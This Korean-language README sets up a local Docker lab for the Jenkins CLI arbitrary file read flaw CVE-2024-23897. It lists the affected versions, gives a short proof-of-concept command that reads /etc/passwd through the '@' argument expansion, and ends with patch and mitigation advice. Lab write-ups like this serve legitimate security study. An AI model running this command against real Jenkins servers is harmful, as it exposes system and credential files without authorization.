

# Jenkins CLI 임의 파일 읽기 취약점 (CVE-2024-23897)

## 1. 취약점 요약
- **CVE 번호:** CVE-2024-23897
- **취약점 유형:** Arbitrary File Reading (임의 파일 읽기)
- **개요:** Jenkins CLI(Command Line Interface)에서 명령 인자를 파싱할 때 `@` 문자 뒤에 파일 경로를 입력하면 해당 파일의 내용을 인자로 확장하여 읽어 들이는 기능(expand-at-args)의 검증 미흡으로 발생합니다. 인증되지 않은 공격자도 Jenkins 서버 내부의 임의 파일을 읽을 수 있으며, 구조에 따라 RCE(원격 코드 실행)로 연계될 수 있습니다.

---


## 2. 환경 구성 및 취약 조건
### 취약 버전
- Jenkins 주 버전 2.441 이하
- Jenkins LTS 버전 2.426.2 이하

### 실행 방법
본 환경은 외부 이미지에 의존하지 않고 지정된 `Dockerfile`과 `docker-compose.yml`을 통해 빌드됩니다. 아래 명령어를 순서대로 실행합니다.

```bash
# 1. 취약 환경 컨테이너 빌드 및 백그라운드 실행
docker compose up --build -d

# 2. 컨테이너 상태 확인 (8080 포트 정상 오픈 확인)
docker compose ps

4. 재현 절차 및 PoC 코드
Step 1: 공격용 CLI 도구 다운로드
취약점이 존재하는 Jenkins 서버로부터 직접 CLI 실행 파일을 다운로드합니다.

# Windows PowerShell 환경 기준
Invoke-WebRequest -Uri "http://localhost:8080/jnlpJars/jenkins-cli.jar" -OutFile "jenkins-cli.jar"

Step 2: 임의 파일 읽기 공격 수행 (PoC)
다운로드한 CLI 도구를 이용하여 내부 시스템 파일인 /etc/passwd 읽기를 시도합니다.

java -jar jenkins-cli.jar -s http://localhost:8080/ help "@/etc/passwd"

5. 실행 결과
공격 명령 수행 시 아래와 같이 에러 메시지(ERROR: Too many arguments)와 함께 컨테이너 내부의 /etc/passwd 내용(root, daemon 계정 정보 등)이 노출되는 것을 확인하였습니다.



6. 대응 방안
보안 패치 적용: Jenkins 버전을 최신 안정 버전(2.442 이상 또는 LTS 2.426.3 이상)으로 업그레이드합니다.

임시 조치 (CLI 비활성화): 패치가 불가능한 경우, Jenkins 스크립트 콘솔 등에서 CLI 접근 기능 자체를 비활성화하는 스크립트를 적용하여 공격 경로를 차단합니다.
